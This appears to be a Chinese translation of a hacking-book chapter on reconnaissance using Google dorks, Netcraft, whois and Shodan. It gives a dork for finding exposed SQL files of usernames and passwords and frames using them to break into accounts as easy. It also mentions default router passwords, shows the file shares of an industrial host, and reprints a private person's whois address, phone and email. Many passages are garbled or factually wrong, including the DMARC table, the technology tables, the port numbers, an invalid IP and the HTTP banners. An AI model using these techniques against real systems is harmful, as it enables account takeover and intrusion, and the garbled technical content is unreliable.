

我们可以非常具体地描述我们要查找的黑客技巧类型。例如，如果我们针对 WordPress 网站，我们可以在搜索窗口中输入关键词“wordpress”，该网站将显示所有与 WordPress 构建的网站相关的 Google 黑客技巧（WordPress 是构建网站时世界上最受欢迎的内容管理系统）。在这里我们找到的众多 Google 黑客技巧中，有一个更复杂，它结合了多个短语：`filetype:sql intext:password | pass | passwd intext:username intext:INSERT INTO `users` VALUES`

```
passwd intext:username intext:INSERT INTO `users` VALUES
```

当我们使用这个黑客技巧时，我们发现了几个网站。当我们点击其中一个时，我们发现了以下内容：如您所见，我们能够找到一个将用户和密码插入数据库的 SQL 脚本。在我们扫描此脚本时，我们发现了大量的用户名和密码对。这应该会使入侵这些账户变得相当简单！

### Google 黑客技巧总结

Google 黑客技巧是每位黑客都应了解并掌握的一项关键技能。在许多情况下，它可以提供关于目标的信息，从而在利用目标时为我们节省数小时甚至数天的时间。

随着我们不断扩展信息收集技术，请记住，您在单个项目中**不太可能**使用所有这些技术。每个项目都是独特的，您需要针对目标定制您的信息收集技术。在这里也重要的是要注意，我们使用的是公开可用的信息，不需要我们“接触”潜在目标的域名或网站，从而在收集信息时触发入侵检测系统（IDS）或其他安全设备的警报。

在本章中，我将向您介绍更多从公开来源收集目标信息的技术。

# Netcraft

Netcraft 是一个来自英国的项目，最初是为了跟踪有关 Web 服务器和网站的数据而开始的。它是 Web 服务器技术市场份额数据的一个非常可靠的来源。例如，如果您想知道有多少百分比的 Web 服务器正在运行 Apache（38.77%），或者最可靠的托管公司（Lightcrest），或者使用最广泛的托管公司（Softlayer），Netcraft 是权威来源。在执行此信息收集任务的过程中，它收集了关于数百万个网站和服务器的可观数量信息，我们可以挖掘这些信息，并且可能在针对特定目标制定策略时证明是有用的。

第 54 页


# 网络安全与数据挖掘

Netcraft 提供包括反欺诈和反网络钓鱼服务、应用程序测试和 PCI 扫描在内的互联网安全服务。我们还分析互联网的许多方面，包括 Web 服务器、操作系统、托管提供商和 SSL 证书颁发机构的市场份额。



主动防御您的品牌免受试图窃取用户详情的网络钓鱼网站的攻击：

- 已阻止超过 1240 万个独特的网络钓鱼网站（2015 年 2 月）

- 第三方测试将 Netcraft 工具栏评为最有效的反网络钓鱼服务

- 持续更新的馈送，适合网络管理员、软件开发人员和互联网服务提供商

- 反欺诈服务，用于消除互联网上的欺诈内容

- 了解更多

**保护您的客户**

- 解决方案适用于...

  - 银行

  - 证书颁发机构

  - 域名注册商

  - 域名注册商

  - 托管公司

  - 投资者和风险投资人

  - 在线商户

  - 安全提供商

  - 软件行业

- 最新消息

  - Steam 社区网络钓鱼攻击持续不断

  - 2015 年 2 月 Web 服务器调查

  - 亚马逊在欧洲宕机

  - 自圣诞节以来，朝鲜网站几乎无法访问

  - 2015 年 1 月最可靠的托管公司网站

联系我们

+44 (0) 1225 447500

`info@netcraft.com`


# 那个站点在运行什么？

了解任何网站背后的技术：

netcraft.com [>]


## 报告可疑 URL

如果您收到网络钓鱼邮件，请报告攻击者网站的 URL。



您可以在 [www.netcraft.com](http://www.netcraft.com) 找到该网站；下面的截图显示了 `netcraft.com` 的主网页。

注意在页面右侧大约三分之二的位置，有一个标记为“What's that site running?”的窗口。在该标签下方写着：“了解驱动任何网站的技术。” 找出网站运行什么技术正是我们要做的！

让我们选择一个目标，看看我们能找到关于它的什么信息。我们几乎所有人都熟悉 Facebook。

让我们看看 Netcraft 收集了哪些关于 `www.facebook.com` 的信息。在窗口中输入“facebook.com”并按下 ENTER 键。




如上方截图所示，Netcraft 列出了 Facebook 的多个站点和服务器。多年来，Facebook 在全球范围内扩张，在多个国家部署了服务器。让我们来看一下 Facebook 的原始站点 `www.facebook.com`。列表信息显示，该站点首次发现于 1997 年 5 月，网段由 Facebook 持有，且该站点运行的操作系统为 Linux。如果我们点击中间的“站点报告”，就可以看到关于 Facebook 的更多信息。

站点报告包括：

- 站点标题
- 该网站在 internet 数百万个网站中的排名
- 首次发现日期
- 主要语言
- 描述

托管历史部分包含更多有趣的信息，例如：

- IP 地址
- 操作系统
- Web 服务器
- 最后发现时间

如果我们向下滚动一点，可以看到关于该站点使用的技术的更多信息。


## 1 安全

Netcraft 风险评级 (FRA) 0/5 [进度条指示低风险]

- 在激进位列表中：否
- 在 Defensio 阻止列表中：否
- 在昂贵阻止列表中：否
- 在过度阻止列表中：否

### 发件人策略框架

主机的发件人策略框架（SPF）描述了谁可以代表其发送邮件。这是通过发布包含一系列规则的 SPF 记录来实现的。每条规则由一个限定符后跟指定应用该限定符的域组成。欲了解更多信息，请在此阅读。

警告：似乎此主机没有 SPF 记录。设置 SPF 记录有助于防止来自您域的伪造邮件被投递。

## 2 DMARC

DMARC（基于域的邮件身份验证、报告和一致性）是一种机制，用于让域发件人指示声称源自其域的邮件应经过身份验证。它基于 SPF 和 DKIM 构建，提供了一种告知策略并获取失败报告的方法。欲了解更多信息，请在此阅读。

DMARC 记录 (`txt`) 的值为：`p=none; percent= 100;ru=5m; o=none; ruf=https://dmarc@agoric.com; r=24;adkim=r; aspfm=r`

| 标签 | 角色 | 值 |
| --- | --- | --- |
| spf=1 | 必需 | 意味着在 DMARC 验证期间，DMARC 机制应坚持标记为：必需 SHOULD |
| pct=100 | 发送速率 | 域所有者邮件流中 100% 的消息应应用 DMARC。 |
| ru=5m; ruf=reports@dmarc@agoric.com | 报告速率 | 报告：汇总报告 rUF=5m，取证报告 rUF=3d，或任其一为默认值 |
| aspf=r; adkim=r; p=none | 失败率的报告策略 | pfail@apex.com |

## 3 Web 跟踪器

Web 跟踪器是加载到网页中的第三方资源。跟踪器衡量网站访问者的使用情况，包括页面浏览量、点击率和参与度。这些跟踪器可用于在网络上监控单个用户在此前和之后的活动。从这些跟踪器中提取的数据可能用于广告或分析目的。

未识别出已知跟踪器。

## 4 站点技术

存档于：2015 年 2 月 18 日

### 服务端

Netcraft 检测到的在服务器上运行的主要技术（如 PHP）的详细信息。

| 技术 | 描述 | 使用此技术的流行站点 |
| --- | --- | --- |
| PHP 7 | PHP 是一种服务器端脚本语言 | www.smile.com, www.dallas.com, www.explosive.com |
| Perl 4 | Perl 是一种高级、通用、解释型、动态编程语言 | www.fox.com, Amazon.com, Text.com |
| RHEL 7 | 一种轻量级、强大且高性能的 Linux 发行版 | www.google.com, www.pipetree.org, www.youtube.com |

### 客户端

在浏览器上运行的主要技术（如 JavaScript 和 Adobe Flash）的详细信息

| 技术 | 描述 | 使用此技术的流行站点 |
| --- | --- | --- |
| Bootstrap 3 | 一种开源编程语言，通常作为 Web 浏览器的一部分实现 | www.google.com, apple.com, twitter.com |
| Clear-Pdf | 无描述 | www.fool.com, www.fortune.com, www.myspace.com |
| - | 无描述 | www.myspace.com, www.google.com |

### 混淆编码

字符编码系统由将给定字库中每个字符与比特模式、自然数序列或字母等配对起来的代码组成。字符编码系统可以表示计算机屏幕上可显示的所有可能字符。

| 技术 | 描述 | 使用此技术的流行站点 |
| --- | --- | --- |
| UTF-8 | UCS 转换格式 8 位 | progressb.com, phuck.com, gmail.com |

### HTTP 压缩

HTTP 压缩是一种可用于减少网络延迟和带宽消耗的技术。它通过压缩数据进行发送并在接收端解压来工作。Gzip、Deflate 和 Brotli 是常见的 HTTP 压缩算法。

| 技术 | 描述 | 使用此技术的流行站点 |
| --- | --- | --- |
| Gzip | Gzip HTTP 压缩协议 | www.google.com, amazon.com, netflix.com |

### 站点浏览器使用目标

Web 浏览器目标设置使软件应用程序能够利用浏览器的特定功能，并为特定浏览器版本优化应用程序。



通常情况下，我们可以从 Netcraft 收集到关于较小网站和 Web 服务器的更多信息（尽管有些网站太小，Netcraft 无法跟踪）。让我们看看他们关于 `www.skullsecurity.com` 的信息，这是一个专门从事 IT 安全的网站，常被用作密码列表的来源。

有趣的是，`skullsecurity.com` 的“站点标题”下，Netcraft 列出了“404 未找到”。网站所有者可以随意输入任何标题。这个网站的所有者显然很有幽默感。在托管历史部分，Netcraft 列出了 IP 地址、操作系统（Linux）和 Web 服务器（`nginx`）。所有这些信息在制定利用策略时都可能是有益的信息！


```
Domain Status: clientDeleteProhibited (https://www.icann.org/epp#clientDeleteProhibited)
Registry Registrant ID:
Registrant Name: Domain Administrator
Registrant Organization: Facebook, Inc.
Registrant Street: 1601 Willow Road,
Registrant City: Menlo Park
Registrant State/Province: CA
Registrant Postal Code: 94025
Registrant Country: US
Registrant Phone: +1.6505434800
Registrant Phone Ext:
Registrant Fax: +1.6505434800
Registrant Fax Ext:
Registrant Email: domain@fb.com
Registry Admin ID:
Admin Name: Domain Administrator
Admin Organization: Facebook, Inc.
Admin Street: 1601 Willow Road,
Admin City: Menlo Park
Admin State/Province: CA
Admin Postal Code: 94025
Admin Country: US
Admin Phone: +1.6505434800
Admin Phone Ext:
Admin Fax: +1.6505434800
Admin Fax Ext:
Admin Email: domain@fb.com
Registry Tech ID:
Tech Name: Domain Administrator
Tech Organization: Facebook, Inc.
Tech Street: 1601 Willow Road,
Tech City: Menlo Park
Tech State/Province: CA
Tech Postal Code: 94025
Tech Country: US
```

## Whois

每当任何人注册一个域名时，他们都必须提供一些关于他们自己及其公司的必要信息。这些信息可以包括名称服务器、注册商、联系人姓名、地址、电话号码和电子邮件地址。所有这些可能对攻击者都很有用。

这些信息由注册商维护，并由 InterNIC 维护一个中央注册机构。我们可以使用几乎每个 Linux/UNIX 系统都内置的 `whois` 命令查询（端口 `43`）这些数据库以获取这些基本信息。让我们从我们的 Kali 系统查询 `facebook.com`。

`kali> whois facebook.com`

如上方截图所示，我们的 Kali Linux 自动查询 `whois` 条目并返回有关域名的信息，例如名称、地址、城市、州、邮政编码和电话号码。

域名所有者还必须向注册商提供技术联系人和管理联系人的信息，但现在大多数大公司都像 Facebook 在此处提供的那样提供通用名称。较小公司的情况并非总是如此。

当我们对 `skullsecurity.com` 运行类似的 `whois` 查询时，我们获得了所有者的姓名、地址、电话和电子邮件地址。

## Whois 信息

注册人 ID：CR32628813

注册人姓名：Ron Bowes

注册人组织：

注册人街道：604-870 Cambridge St

注册人城市：Winnipeg

注册人州/省：Manitoba

注册人邮政编码：R3M3H5

注册人国家：CA

注册人电话：+1.20496604345

注册人电话分机：

注册人传真：

注册人传真分机：

注册人电子邮件：rondomain@javaop.com

管理员 ID：CR32628815

管理员姓名：Ron Bowes

管理员组织：

管理员街道：604-870 Cambridge St

管理员城市：Winnipeg

管理员州/省：Manitoba

管理员邮政编码：R3M3H5

管理员国家：CA

管理员电话：+1.20496604345

管理员电话分机：

管理员传真：

管理员传真分机：

管理员电子邮件：rondomain@javaop.com

技术联系人 ID：CR32628814

技术联系人姓名：Ron Bowes

技术联系人组织：

技术联系人街道：604-870 Cambridge St

技术联系人城市：Winnipeg

技术联系人州/省：Manitoba

技术联系人邮政编码：R3M3H5

技术联系人国家：CA

技术联系人电话：+1.20496604345

技术联系人电话分机：

技术联系人传真：

技术联系人传真分机：

技术联系人电子邮件：rondomain@javaop.com

如果我们使用的是 Windows 系统，可以使用几种在线 `whois` 查询工具之一。我们可以在 `www.networksolutions.com` 找到这样一类工具，但还有其他可用的工具，例如：

- `http://whois.domaintools.com`

- `http://ripe.net`

- `http://whois.sc`

当我们使用 Windows 上的浏览器在 `www.networksolutions.com` 上对 `skullsecurity.com` 运行 `whois` 查询时，我们会得到以下信息。

## skullsecurity.com

这是你的域名吗？立即续订。

域名：SKULLSECURITY.COM

注册局域名 ID：695833122_DOMAIN_COM-VRSN

注册商 WHOIS 服务器：whois.godaddy.com

注册商 URL：http://www.godaddy.com

更新日期：2013-10-16T20:32:23Z

创建日期：2006-12-04T14:42:27Z

注册商注册到期日期：2015-11-27T11:59:59Z

注册商：GoDaddy.com, LLC

注册商 IANA ID：146

注册商滥用联系电子邮件：abuse@godaddy.com

注册商滥用联系电话：+1.480-624-2505

域名状态：clientTransferProhibited http://www.icann.org/epp#clientTransferProhibited

域名状态：clientUpdateProhibited http://www.icann.org/epp#clientUpdateProhibited

域名状态：clientRenewProhibited http://www.icann.org/epp#clientRenewProhibited

域名状态：clientDeleteProhibited http://www.icann.org/epp#clientDeleteProhibited

注册局注册人 ID：

注册人姓名：Ron Bowes

注册人组织：

注册人街道：604-870 Cambridge St

注册人城市：Winnipeg

注册人州/省：Manitoba

注册人邮政编码：R3M3H5

注册人国家：Canada

注册人电话：+1.20496604345

注册人电话分机：

注册人传真：

注册人传真分机：

注册人电子邮件：rondomain@javaop.com

注册局管理员 ID：

管理员姓名：Ron Bowes

管理员组织：

管理员街道：604-870 Cambridge St

管理员城市：Winnipeg

管理员州/省：Manitoba

管理员邮政编码：R3M3H5

管理员国家：Canada

管理员电话：+1.20496604345

管理员电话分机：

管理员传真：

管理员传真分机：

管理员电子邮件：rondomain@javaop.com

注册局技术联系人 ID：

技术联系人姓名：Ron Bowes

技术联系人组织：

技术联系人街道：604-870 Cambridge St

技术联系人城市：Winnipeg

技术联系人州/省：Manitoba

技术联系人邮政编码：R3M3H5

技术联系人国家：Canada

技术联系人电话：+1.20496604345

技术联系人电话分机：

技术联系人传真：

技术联系人传真分机：

技术联系人电子邮件：rondomain@javaop.com

请注意，这些信息与我们从 Linux `whois` 查询获得的信息几乎相同，但格式略有不同。

### Shodan

我们所有人都在使用（在大多数情况下，每天数次）Google、Bing 或 Yahoo 来搜索互联网上的相关资料。在本章早些时候，我们学习了一些使用 Google 黑客攻击来查找 Google 庞大的网络材料数据库中可能不易直接看到的信息的基础知识。在本节中，我将向你介绍另一个网络搜索引擎，Shodan。Shodan 常被称为“世界上最危险的搜索引擎”，因为它索引和揭示的数据。


Shodan 是另一种类型的搜索引擎。它不是爬取世界上所有的网页并索引这些页面上的信息以供搜索，而是爬取互联网并获取 Web 服务器上的横幅（banners），然后索引这些横幅中发现的信息。如果你不熟悉获取 Web 横幅，请查看第 16 章中的横幅抓取脚本。

如今，几乎每个新设备都有 Web 界面——从网络摄像头到冰箱再到安全系统——这些设备中也嵌入了一个微型 Web 服务器。这些 Web 界面通常被启用以允许远程管理，例如在 Cisco 路由器或家庭安全系统中。这些 Web 界面意味着我们可以连接到这些 Web 服务器并获取它们的横幅，以了解有关设备及其 Web 服务器的信息。幸运的是，我们不需要这样做，因为 Shodan 已经替我们完成了这一工作，并对所有信息进行了很好的索引。

### Shodan 总部

John Matherly 于 2009 年开发了 Shodan。Shodan 收集并索引来自全球所有 Web 接口横幅的信息，涉及 80 端口（HTTP）、21 端口（FTP）、22 端口（Telnet）、23 端口（SSH）、161 端口（SNMP）和 5060 端口（SIP）。

让我们导航到 `www.shodan.io`。当我们这样做时，我们应该会看到如下图所示的界面。




要使用 Shodan，我们需要注册并开通一个账户。一旦注册完成，并且在我们学习有效使用 Shodan 的细微之处之前，我们可能想要查看右侧提供的一些热门搜索。这些是其他人执行过的搜索，它们揭示了有趣的信息，并且不需要你学习 Shodan 搜索语法。

例如，这里我们使用了网络摄像头搜索。当我们点击它时，它带我们到了一个似乎是地球上某处飞机库的网络摄像头。




当我们去路由器搜索时，我们可以找到像这样的路由器界面。在许多情况下，使用默认的用户名和密码就可以让你访问这些路由器。

也许更令人恐惧的是，SCADA（工业系统，如石油精炼、制造、电力传输等）系统的 Web 界面也可以通过 Shodan 找到并访问。


**主机配置文件：93.62.155.179**

**摘要**

IP：93.62.155.179

位置：意大利热那亚

纬度/经度：44.4167, 8.95

**SMB**

| 共享名称 | 类型 | 备注 |
| :--- | :--- | :--- |
| IPC$ | IPC | IPC 服务 (NAS 服务器) |
| ERG_ HYDRO_DD_ HYDRA | 磁盘 | arl |
| FTP-EROM | 磁盘 | 与热那亚的文件交换 |
| test | 磁盘 | test_Cardaci |
| RENEW-STORICO IVPC SWI | 磁盘 | SWI IVPC 历史数据仓库 |
| 9ciccione | 磁盘 |  |
| 9dkoch | 磁盘 |  |
| FTP-SCADA | 磁盘 | 与 Sirius 的文件交换 |
| FTP-WIND | 磁盘 |  |
| Qoyne | 磁盘 | Qoyne |
| FTP CGI | 磁盘 | CGI-LOGICA 文件交换 |
| 9apiiri | 磁盘 | (联系人 CASALINI, 2013-11-12) |
| 9cannizzo | 磁盘 | (联系人 CASALINI, 2013-11-11) |
| homes | 磁盘 | 系统默认共享 |
| amartorana | 磁盘 |  |
| dfunaro | 磁盘 |  |
| mramma | 磁盘 |  |
| Netwerk Recycle Bin 1 | 磁盘 | [RAID6 磁盘卷：驱动器 1 2 3 5 6 7] |
| Public | 磁盘 | 系统默认共享 |
| Usb | 磁盘 | 系统默认共享 |


在这里，我们找到了位于意大利热那亚的一个水力发电厂的 Web 界面。

### Shodan 的搜索语法

上面的热门搜索都很好。有趣，但针对性不强。这些热门搜索可以作为有益的演示，但我们如何使用 Shodan 来查找特定的 Web 界面？

请记住，Shodan 索引 Web 界面横幅。它获取横幅信息，然后存储并索引这些信息。当我们搜索 Shodan 时，我们可以查找来自横幅的这些信息。

Shodan 有一些关键字可以帮助我们将搜索缩小到特定界面，例如：

- `after`/`before` - 将结果限制在特定日期之前或之后索引的横幅
- `country` - 使用两位字母国家代码按国家筛选结果
- `hostname` - 按域名筛选结果
- `net` - 使用 CIDR 表示法按 IP 地址范围筛选结果
- `geo` - 按经度和纬度筛选结果
- `os` - 按主机操作系统筛选结果
- `port` - 按端口筛选结果

让我们现在使用这些过滤器来查找一些特定的 Web 界面。


| IP 地址 | 漏洞 | 服务 |
|---|---|---|
| 185.118.42.110 | 0369-L, 909-L, 509-L, 26, 8899-L, 309-L | SSH (80/531), HTTP (790376), HTTPS (565142), RDP (202376), SNMP (267249) |
- ip-mib 0.0.6.2.42.9.12.695.1.2.85
- 删除

| IP 地址 | 漏洞 | 服务 |
|---|---|---|
| 85.42.96.126 | 0369-L, 309-L, 509-L, 26 | - |
- ip-mib 0.0.6.2.42.9.12.695.1.2.85
- 特灵（Trane）
- 删除

| IP 地址 | 服务 |
|---|---|
| 6.6.47.75.62 | - |
- 831/霍尼韦尔（Honeywell）
- 4061/霍尼韦尔（Honeywell）

```http
HTTP/1.1 200 Ok
Server: IIS/10.0
Banner: TLS, B3, TLS-R93 TLS/TLS-MD5 gpt
Session: TLS/1.20
Connection: close
Response-Message: test
```

`www.hacker-target.de`：基本  `www.h@hacker-target.de`

| IP 地址 | 漏洞 | 服务 |
|---|---|---|
| 202.140.207.113 | - | - |
- 102/HP-UX-11.23
- 832
- 删除

```http
HTTP/1.1 200 Ok
Server: Sun, 65, 85, 7692 SSL/SSL
Session: TLS/1.0
Connection: close
Server: SLES 11.0, SLES 11.1, SLES 12.0
Date: Sat, 05 Mar 2011 09:52:39 GMT
Cache-Control: public, must-revalidate, no-cache, no-store, proxy-revalidate, must-revalidate, no-store, must-revalidate
X-Powered-By: ASP.NET
Server: Microsoft-IIS/7.5
X-AspNet-Version: 4.0.30319
Content-Type: text/html
```

rcece 的搜索结果 8 - 10，约 21957998 条

## 服务

## 主要国家

## 主要组织




> 你的网站是否容易受到黑客攻击？

- 庆祝 Shodan 成立 2 周年

Shodan




如果我们只想查找思科（Cisco）路由器怎么办？请记住，Shodan 会索引其从 Web 界面获取的信息，因此如果该界面向外界表明它是一台 Cisco 设备（警惕的安全管理员可以抑制横幅，甚至设置虚假横幅），Shodan 就会将其索引为此类，我们可以搜索该关键词。例如，如果在搜索引擎中输入“Cisco”，我们可以找到超过三百万台设备！

